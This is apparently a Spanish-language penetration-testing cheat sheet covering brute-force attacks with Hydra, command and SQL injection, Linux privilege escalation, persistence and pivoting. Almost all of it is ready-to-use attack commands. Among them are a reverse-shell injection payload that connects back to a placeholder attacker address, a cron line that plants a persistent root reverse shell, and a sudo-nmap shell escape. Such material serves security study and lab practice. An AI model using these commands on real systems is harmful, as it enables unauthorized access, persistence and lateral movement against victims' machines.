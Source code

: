 ### 2.2. Ataques de Fuerza Bruta con Hydra

| Protocolo | Comando de Ejemplo con Hydra | Desglose de Flags |
|---|---|---|
| **SSH** | `hydra -L users.txt -P pass.txt ssh://[IP]` | `-L`: Lista de usuarios. `-P`: Lista de passwords. |
| **FTP** | `hydra -l user -P pass.txt ftp://[IP] -t 4` | `-l`: Usuario único. `-t 4`: 4 hilos/intentos en paralelo. |
| **Web Form**| `hydra -L u.txt -P p.txt [IP] http-post-form "/login.php:user=^USER^&pass=^PASS^:F=error"` | `http-post-form`: Especifica el formulario. `^USER^`: Placeholder. `:F=error`: String que indica fallo. |

### 2.3. Inyección de Comandos y SQL

| Tipo de Inyección | Payload de Ejemplo | Propósito |
|---|---|---|
| **Command Injection** | `127.0.0.1; whoami` | Ejecuta un comando adicional en el servidor. |
| **Blind Command Injection** | `127.0.0.1 && sleep 5` | Si la web tarda 5s más en cargar, la inyección es exitosa. |
| **Reverse Shell** | `IP; bash -i >& /dev/tcp/[TU_IP]/4444 0>&1` | El servidor se conecta de vuelta a tu máquina, dándote una shell. |
| **SQL Injection** | `sqlmap -u "http://[IP]/page.php?id=1" --dbs --batch` | `-u`: URL. `--dbs`: Enumera las bases de datos. `--batch`: No interactivo. |

---

## 🚀 FASE 3: POST-EXPLOTACIÓN Y MOVIMIENTO LATERAL
*Una vez dentro, el objetivo es escalar privilegios y expandir el control.*

### 3.1. Enumeración Interna y Escalación de Privilegios

| Tarea | Comando Clave | Función y Qué Buscar |
|---|---|---|
| **1. ¿Quién soy?** | `whoami` / `id` | Confirma tu usuario y grupos. Clave para saber tus permisos. |
| **2. ¿Qué sistema es?** | `uname -a` / `cat /etc/os-release` | Versión del Kernel y SO. Útil para buscar exploits de escalación. |
| **3. ¿Qué puedo ejecutar como root?** | `sudo -l` | Busca `(ALL) NOPASSWD: /path/to/binary`. Vector de escalación fácil. |
| **4. Buscar Binarios SUID** | `find / -perm -u=s -type f 2>/dev/null` | Busca archivos que se ejecutan como root. Abusar de ellos es un vector clásico (ver GTFOBins). |
| **5. Scripts Automatizados** | `linpeas.sh` / `LinEnum.sh` | Estos scripts buscan automáticamente vectores de escalación de privilegios. |
| **6. Explotar SUID/Sudo (GTFOBins)** | `sudo nmap --interactive` -> `!sh` | Ejemplo de cómo un binario con permisos `sudo` puede darte una shell de root. |

### 3.2. Persistencia y Movimiento Lateral

| Tarea | Técnica | Comando de Ejemplo |
|---|---|---|
| **Persistencia con Cron** | Añadir una tarea programada | `echo "* * * * * bash -c 'bash -i >& /dev/tcp/[IP]/4444 0>&1'" >> /var/spool/cron/root` |
| **Pivoting (Acceder a Red Interna)** | Proxy SOCKS con SSH | `ssh -D 9050 user@[IP_VICTIMA]` |
| **Usar el Pivot** | Configurar Proxychains | `proxychains nmap -sT -Pn [IP_INTERNA]` |
| **Transferir Archivos (Atacante -> Víctima)** | Servidor Python + Wget | En Kali: `python3 -m http.server 80`. En Víctima: `wget http://[IP_KALI]/archivo`. |

---
